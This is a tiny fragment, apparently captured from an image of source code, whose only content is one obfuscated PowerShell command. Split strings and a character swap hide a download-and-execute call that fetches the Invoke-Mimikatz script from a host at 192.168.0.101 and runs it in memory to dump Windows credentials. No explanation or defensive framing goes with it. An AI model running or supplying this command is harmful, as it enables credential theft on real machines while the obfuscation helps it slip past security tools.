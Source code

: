 	>powershell -c " ('IEX '+'(Ne'+'w-O'+'bject Ne'+'t.W'+'ebClien'+'t).Do'+'wnloadS'+'trin'+'g'+'('+'1vchttp://'+'192.168.0'+'.101/'+'Inv'+'oke-Mimik'+'a'+'tz.'+'ps11v'+'c)'+';'+'I'+'nvoke-Mimika'+'tz').REplaCE('1vc',[STRing][CHAR]39)|IeX"